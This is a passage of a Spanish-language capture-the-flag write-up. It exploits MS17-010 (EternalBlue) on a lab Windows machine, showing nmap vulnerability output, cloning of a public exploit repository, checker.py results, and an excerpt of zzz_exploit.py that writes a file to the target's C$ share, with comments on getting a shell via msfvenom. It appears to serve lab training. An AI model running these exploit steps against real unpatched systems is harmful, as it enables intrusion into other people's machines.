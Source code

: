 ```
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 15.06 seconds
```

Dado que observamos que tiene la vulneravilidad `ms17-010` trabajamos con EternalBlue por tanto nos descargamos el siguiente repositorio

```console
git clone https://github.com/worawit/MS17-010
```

Realizamos una prueba con el checker.py de EthernalBlue y vemos que tenemos explotaciones disponibles

```console
python2 checker.py 10.10.10.4
```

```
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```

## Fase de explotación

Modificamos el archivo zzz_exploit.py 

> archivo original

```python
[...]
def smb_pwn(conn, arch):
          smbConn = conn.get_smbconnection()
  
          print('creating file c:\\pwned.txt on the target')
          tid2 = smbConn.connectTree('C$')
          fid2 = smbConn.createFile(tid2, '/pwned.txt')
          smbConn.closeFile(tid2, fid2)
          smbConn.disconnectTree(tid2)
          
          #smb_send_file(smbConn, sys.argv[0], 'C', '/exploit.py')
          #service_exec(conn, r'cmd /c copy c:\pwned.txt c:\pwned_exec.txt')
          # Note: there are many methods to get shell over SMB admin session
          # a simple method to get shell (but easily to be detected by AV) is
          # executing binary generated by "msfvenom -f exe-service ..."
  
[...]
```


[Nota]: esta maquina fue realizada según el WriteUp realizado por S4vitar
[^1]: la utilidad se puede descargar de <https://github.com/Akronox/WichSystem.py>